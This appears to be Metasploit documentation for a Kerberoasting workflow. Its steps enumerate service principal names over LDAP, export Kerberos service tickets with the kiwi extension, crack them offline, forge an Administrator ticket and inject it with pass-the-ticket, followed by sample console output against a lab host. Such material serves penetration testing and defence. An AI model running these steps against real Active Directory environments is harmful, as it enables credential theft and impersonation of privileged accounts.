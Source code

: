 
## Vulnerable Application

Any system leveraging kerberos as a means of authentication e.g. Active Directory, MSSQL

## Verification Steps

1. Start msfconsole
3. Obtain SPNs from your target
	1. Do: `use auxiliary/gather/ldap_query`
	2. Do: `set action ENUM_USER_SPNS_KERBEROAST`
	3. Run the module and note the discovered SPNs
4.  Request Service Tickets using the kiwi extension
	1. Do: `load kiwi`
	2. Do: `kerberos_ticket_list`
5. Export service tickets using the kiwi extionsion
	1. Do: `kiwi_cmd kerberos::list /export`
6. Crack the encryped password in the service ticket using tgsrepcrack.py (more info on this python script below)
	1. Do:  `python3 tgsrepcrack.py passlist.txt 1-40a10000-Administrator@HTTP\~testService-EXAMPLE.COM.kirbi`
7. Rewrite the service tickets using kerberoast.py (more info on this python script below)
	1. Do:  `python3  kerberoast.py -p N0tpassword!
	    -r 1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM.kirbi -w Administrator.kirbi -u 500`
8. Finally inject the ticket back into RAM using meterpreter's kiwi extension
	1. `meterpreter > kiwi_cmd kerberos::ptt Administrator.kirbi`

## Kerberoasting

Kerberoasting is a post-exploitation technique that tries to crack the password of a service acount withtin Active
Directory. The attacker requests a ticket while pretending to be an account user with a service principal name (SPN),
which contains an encrypted password. Once recieved, the attacker attemps to crack the password hash.

If successful, the attacker possess user credentials that can be used to impersonate the account owner. Now the attacker
appears to be an approved and legitimate user and has unrestricted access to any assets, systems or networks granted
to the compromised account, boom roasted.

## Scenarios

### SPN Discovery

First an SPN needs to be found. This can be done in a number of ways including using metasploit's
very own ldap_query module :

```
msf6 > use auxiliary/gather/ldap_query
msf6 auxiliary(gather/ldap_query) > set RHOSTS 172.16.199.235
RHOSTS => 172.16.199.235
msf6 auxiliary(gather/ldap_query) > set BIND_DN DARWIN_CLAY
BIND_DN => DARWIN_CLAY
msf6 auxiliary(gather/ldap_query) > set BIND_PW N0tpassword!
BIND_PW => N0tpassword!
msf6 auxiliary(gather/ldap_query) > set action ENUM_USER_SPNS_KERBEROAST
action => ENUM_USER_SPNS_KERBEROAST
msf6 auxiliary(gather/ldap_query) > run
[*] Running module against 172.16.199.235

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
```
